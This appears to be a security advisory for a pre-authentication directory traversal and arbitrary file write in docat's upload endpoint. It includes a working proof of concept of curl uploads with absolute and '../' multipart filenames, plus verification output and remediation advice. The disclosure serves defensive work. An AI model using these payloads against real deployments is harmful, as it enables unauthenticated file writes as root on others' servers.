



[CVE ID]

CVE-2026-50916

[PRODUCT]

docat-org/docat

[VERSION]

commit af38694ac655c9a73198fc3aa2915ddeba0c3554 (2026-02-23)

[PROBLEM TYPE]

Directory Traversal (CWE-22) leading to Pre-Auth Arbitrary File Write

# Description

The documentation upload endpoint `POST /api/{project}/{version}` ([`upload()`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L212-L213) in `docat/docat/app.py`) builds the file write target directly from client-controlled inputs. The URL path segments `project` and `version` and the multipart `filename` are joined with no sanitization:

```python
project_base_path = DOCAT_UPLOAD_FOLDER / project
base_path = project_base_path / version
target_file = base_path / str(file.filename)
```

Python's `pathlib` never rewrites the right-hand operand: an absolute `filename` such as `/tmp/x` replaces the base path entirely, and `..` segments are kept and only resolved by the operating system when the file is opened. The uploaded bytes are then written through [`target_file.open("wb")` and `shutil.copyfileobj()`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L251-L252) with no basename enforcement and no resolve-based containment check, so a crafted `filename` places arbitrary content at an arbitrary path outside `DOCAT_UPLOAD_FOLDER` (`/var/docat/doc`).

Authentication is conditional rather than absent. docat mints a project-scoped `Docat-Api-Key` and validates it with [`check_token_for_project()`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L239), but inside `upload()` the check only runs under [`if base_path.exists():`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L238), that is, only when the target `project/version` already exists. A first upload to a fresh `project` and fresh `version` therefore reaches the vulnerable write without any credentials.

# Proof of Concept

## victim setup

Build the image from the pinned commit with the official Dockerfile and start the container with port 33502 mapped to the API port 5000. `GET /` returning 404 is the healthy state (docat serves no page at the root). The payload is a 35-byte marker, and a pre-check confirms that both target paths are absent before the attack:

```bash
git clone https://github.com/docat-org/docat.git && cd docat
git checkout af38694ac655c9a73198fc3aa2915ddeba0c3554
docker build -t scdd_50916_docat:af38694 .
docker run -d --name scdd_50916_docat -p 33502:5000 scdd_50916_docat:af38694
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:33502/   # -> 404
printf '%s\n' 'SCDD_DOCAT_aed633dde227_1793640375' > /tmp/scdd_docat_payload_50916.bin
```

The container publishes port 5000 (uvicorn) directly; in default deployments nginx fronts the same application on port 80 and adds no path validation, so the vulnerable code path is identical either way.



## attack steps

1. Upload with an absolute path as the multipart `filename`, sending no `Docat-Api-Key` header. The server answers `201 Created` and writes the payload bytes to `/tmp/scdd_docat_write_aed633dde227.txt`:

	```bash
	curl -sS -i -X POST http://127.0.0.1:33502/api/scdd_50916_1793640375/v1 \
	  -F 'file=@/tmp/scdd_docat_payload_50916.bin;filename=/tmp/scdd_docat_write_aed633dde227.txt;type=application/octet-stream'
	```

2. Upload with a classic dot-dot traversal `filename` against a second fresh version. `/var/docat/doc/scdd_50916_1793640375/v2` sits five directory levels below the filesystem root, so seven `../` sequences already reach `/`; the remaining extra sequences are harmless at the root. The response is again `201 Created`:

	```bash
	curl -sS -i -X POST http://127.0.0.1:33502/api/scdd_50916_1793640375/v2 \
	  -F 'file=@/tmp/scdd_docat_payload_50916.bin;filename=../../../../../../../tmp/scdd_docat_write_aed633dde227_rel.txt;type=application/octet-stream'
	```

	Both responses carry `{"message":"Documentation uploaded successfully, but no index.html found at root of archive."}`:

	

3. Verify inside the container. Both attacker-chosen files exist with the exact marker content, and the freshly created `v1`/`v2` directories under the upload folder are empty, with no marker copy anywhere under `/var/docat`:

	```console
	$ docker exec scdd_50916_docat bash -lc 'ls -la /tmp/scdd_docat_write_aed633dde227.txt && cat /tmp/scdd_docat_write_aed633dde227.txt'
	-rw-r--r-- 1 root root 35 Nov  2 17:26 /tmp/scdd_docat_write_aed633dde227.txt
	SCDD_DOCAT_aed633dde227_1793640375
	$ docker exec scdd_50916_docat bash -lc 'ls -la /tmp/scdd_docat_write_aed633dde227_rel.txt && cat /tmp/scdd_docat_write_aed633dde227_rel.txt'
	-rw-r--r-- 1 root root 35 Nov  2 17:26 /tmp/scdd_docat_write_aed633dde227_rel.txt
	SCDD_DOCAT_aed633dde227_1793640375
	$ docker exec scdd_50916_docat bash -lc 'echo --- inside upload folder ---; ls -R /var/docat/doc/scdd_50916_1793640375; echo --- no marker copies under /var/docat ---; grep -r "SCDD_DOCAT_aed633dde227_1793640375" /var/docat 2>/dev/null || echo "marker not under DOCAT_UPLOAD_FOLDER"'
	--- inside upload folder ---
	/var/docat/doc/scdd_50916_1793640375:
	v1
	v2
	--- no marker copies under /var/docat ---
	marker not under DOCAT_UPLOAD_FOLDER
	```

	

# Impact

By abusing the upload endpoint, an unauthenticated remote client can write fully attacker-controlled content to any path writable by the docat process, and the official image runs the process as root:

- Arbitrary file write with both an absolute path and a `../` traversal in the multipart `filename`; the URL `project`/`version` segments are likewise unconstrained path components.
- Overwriting a `project/version` that already exists would require that project's `Docat-Api-Key`, but the first-upload path needs no credentials at all.
- Only the parent directory of the final target must already exist outside the upload base (`base_path.mkdir(parents=True)` covers the base only). A part named `*.zip` would additionally be extracted into the version directory.
- Remote code execution by overwriting executable or startup-read files is a plausible escalation consistent with the CVE description, but was not demonstrated in this PoC.

# Occurrences

- [`docat/docat/app.py L212-L213`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L212-L213) — vulnerable route `POST /api/{project}/{version}` and `upload()`
- [`docat/docat/app.py L229-L231`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L229-L231) — `target_file` built from untrusted URL segments and multipart `filename`
- [`docat/docat/app.py L238-L239`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L238-L239) — `check_token_for_project` runs only when `base_path` already exists, leaving first uploads unauthenticated
- [`docat/docat/app.py L247`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L247) — `base_path.mkdir(parents=True, exist_ok=True)`
- [`docat/docat/app.py L251-L252`](https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L251-L252) — write sink `target_file.open("wb")` and `shutil.copyfileobj`

# Remediation

Recommended fixes:

- Reduce the multipart `filename` to its base name (`os.path.basename`) and reject absolute paths and `..` segments before joining.
- Resolve the final target path and verify it stays inside `DOCAT_UPLOAD_FOLDER` before writing.
- Enforce the project token (or the claim flow) on first upload as well, instead of only when `base_path.exists()`.
